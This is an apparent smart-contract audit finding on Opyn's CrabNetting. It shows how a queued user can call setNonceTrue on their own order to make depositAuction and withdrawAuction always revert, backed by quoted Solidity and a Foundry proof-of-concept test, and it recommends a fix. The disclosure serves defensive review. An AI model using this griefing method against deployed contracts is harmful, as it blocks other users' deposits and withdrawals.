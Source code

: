 seyni

medium

# Anyone in the order queue wanting to withdraw or deposit can grief the auction by making `withdrawAuction` or `depositAuction` always revert

## Summary
Anyone in the order queue wanting to withdraw or deposit can purposely set his order's nonce to true to make any call to `withdrawAuction` or `depositAuction` revert.

## Vulnerability Detail
The `setNonceTrue` function allow anyone to set to `true` the nonce of one of his order.
[CrabNetting.sol#L234-L237](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L234-L237)

```solidity
    function setNonceTrue(uint256 _nonce) external {
        nonces[msg.sender][_nonce] = true;
        emit NonceTrue(msg.sender, _nonce);
    }
```
`depositAuction` and `withdrawAuction` both check if the nonce of every queued order has already been used via `_checkOrder`. For instance in `depositAuction`:
[CrabNetting.sol#L491-L510](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L491-L510)
```solidity
    function depositAuction(DepositAuctionParams calldata _p) external onlyOwner {
        _checkOTCPrice(_p.clearingPrice, false);
        /**
         * step 1: get eth from mm
         *     step 2: get eth from deposit usdc
         *     step 3: crab deposit
         *     step 4: flash deposit
         *     step 5: send sqth to mms
         *     step 6: send crab to depositors
         */
        uint256 initCrabBalance = IERC20(crab).balanceOf(address(this));
        uint256 initEthBalance = address(this).balance;


        uint256 sqthToSell = _debtToMint(_p.totalDeposit);
        // step 1 get all the eth in
        uint256 remainingToSell = sqthToSell;
        for (uint256 i = 0; i < _p.orders.length; i++) {
            require(_p.orders[i].isBuying, "auction order not buying sqth");
            require(_p.orders[i].price >= _p.clearingPrice, "buy order price less than clearing");
            _checkOrder(_p.orders[i]);
```
In `_checkOrder`:
[CrabNetting.sol#L455-L456](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L455-L456)
```solidity
    function _checkOrder(Order memory _order) internal {
        _useNonce(_order.trader, _order.nonce);
```
In `_useNonce`:
[CrabNetting.sol#L756-L759](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L756-L759)
```solidity
    function _useNonce(address _trader, uint256 _nonce) internal {
        require(!nonces[_trader][_nonce], "Nonce already used");
        nonces[_trader][_nonce] = true;
    }
```

Therefore, if only one of the order already had its nonce set to true, the call to `depositAuction` or `withdrawAuction` will revert.

## Impact
The owner cannot proceed the queued deposit/withdraw as intended.
`depositAuction` and `withdrawAuction` will always revert.

## Code Snippet

PoC:
```solidity
    function testNonce() public {
        DepositAuctionParams memory p;
        // get the usd to deposit remaining
        p.depositsQueued = netting.depositsQueued();
        // find the eth value of it
        p.minEth = (_convertUSDToETH(p.depositsQueued) * 9975) / 10000;

        // lets get the uniswap price, you can get this from uniswap function in crabstratgegy itself
        uint256 sqthPrice = (_getSqthPrice(1e18) * 988) / 1000;
        // get the vault details
        (,, uint256 collateral, uint256 debt) = crab.getVaultDetails();
        // get the total deposit
        uint256 toMint;
        (p.totalDeposit, toMint) = _findTotalDepositAndToMint(p.minEth, collateral, debt, sqthPrice);
        // --------
        // then write a test suite with a high eth value where it fails
        bool trade_works = _isEnough(p.minEth, toMint, sqthPrice, p.totalDeposit);
        require(trade_works, "depositing more than we have from sellling");

        //@audit order from mm1 (nonce == 0)
        Order memory order1 = Order(0, mm1, toMint - 1e18, (sqthPrice * 1005) / 1000, true, block.timestamp, 0, 1, 0x00, 0x00);

        Sign memory s1;
        (s1.v, s1.r, s1.s) = vm.sign(mm1Pk, sig.getTypedDataHash(order1));
        order1.v = s1.v;
        order1.r = s1.r;
        order1.s = s1.s;

        //@audit order from mm2 (nonce == 1)
        Order memory order2 = Order(0, mm2, toMint - 1e18, (sqthPrice * 1005) / 1000, true, block.timestamp, 1, 1, 0x00, 0x00);

        Sign memory s2;
        (s2.v, s2.r, s2.s) = vm.sign(mm2Pk, sig.getTypedDataHash(order2));
        order2.v = s2.v;
        order2.r = s2.r;
        order2.s = s2.s;

        orders.push(order1);
        orders.push(order2);
        vm.prank(mm1);
        netting.setNonceTrue(0); //@audit user mm1 setting manually nonce to true right before withdrawAuction or depositAuction call by owner

        //@audit for loop present in withdrawAuction or depositAuction which will revert if any order's nonce is already set to true.
        vm.expectRevert("Nonce already used"); //@audit will revert at first call to checkOrder
        for (uint256 i = 0; i < orders.length; i++) {
            netting.checkOrder(orders[i]);
        }
    }
```

## Tool used

Manual Review, Foundry

## Recommendation
Remove `setNonceTrue` and add a mecanism to allow owner to remove an order if needed.